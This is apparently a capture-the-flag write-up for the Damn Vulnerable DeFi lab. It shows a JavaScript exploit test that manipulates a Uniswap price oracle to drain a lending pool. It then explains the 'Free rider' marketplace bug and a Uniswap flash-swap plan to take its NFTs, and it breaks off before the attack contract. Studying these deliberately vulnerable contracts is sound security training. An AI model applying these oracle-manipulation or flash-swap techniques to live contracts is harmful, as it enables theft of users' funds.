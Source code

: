 ```javascript
    it('Exploit', async function () {
        const deadline = (await ethers.provider.getBlock('latest')).timestamp * 2;
        await this.token.connect(attacker).approve(this.uniswapRouter.address, ATTACKER_INITIAL_TOKEN_BALANCE);
        await this.uniswapRouter.connect(attacker).swapExactTokensForETH(ATTACKER_INITIAL_TOKEN_BALANCE, 0, [this.token.address, this.weth.address], attacker.address, deadline);
        
        let calculatedDeposit = await ethers.utils.formatEther(ethers.BigNumber.from(await this.lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE)));
        let calculatedDepositToStringInETH = ethers.utils.parseEther((Math.ceil(calculatedDeposit * 10) / 10).toString());

        await this.weth.connect(attacker).deposit({value: calculatedDepositToStringInETH } )

        this.weth.connect(attacker).approve(this.lendingPool.address, calculatedDepositToStringInETH);
        this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE);
    });
```

- - -
## CTF name: Damn Vulnerable DeFi
### Challenge name: Free rider 
### Challenge description:
    A new marketplace of Damn Valuable NFTs has been released! There's been an initial mint of 6 NFTs, which are available for sale in the marketplace. Each one at 15 ETH.

    A buyer has shared with you a secret alpha: the marketplace is vulnerable and all tokens can be taken. Yet the buyer doesn't know how to do it. So it's offering a payout of 45 ETH for whoever is willing to take the NFTs out and send them their way.

    You want to build some rep with this buyer, so you've agreed with the plan.

    Sadly you only have 0.5 ETH in balance. If only there was a place where you could get free ETH, at least for an instant.

### Challenge category => so users know the chall’s field
### Challenge points => so users know the chall’s difficulty

In this challenge, we have to take 6 NFT from marketplace with only 0.5 ether. In addition, NFT is 15 ether worth. The vulnerability is in the `_buyOne()` function. Here is the line that is vulnerable.

```
    token.safeTransferFrom(token.ownerOf(tokenId), msg.sender, tokenId);
    payable(token.ownerOf(tokenId)).sendValue(priceToPay);
```

If someone buys NFT, the marketplace transfer the NFT to buyer first. Then send value to token owner, which is now buyer. If only we could get 15 ETH, we can take all NFTs from marketplace. Here is where flash swap is needed. We can get 15 ETH for an instant from __Uniswap__. In `swap()` function in Uniswap pair, we are allow to send data to call `uniswapV2Call()`. We just need to create `uniswapV2Call()` function that buys NFT and return funds to Uniswap pair contract. Here is attack contract.
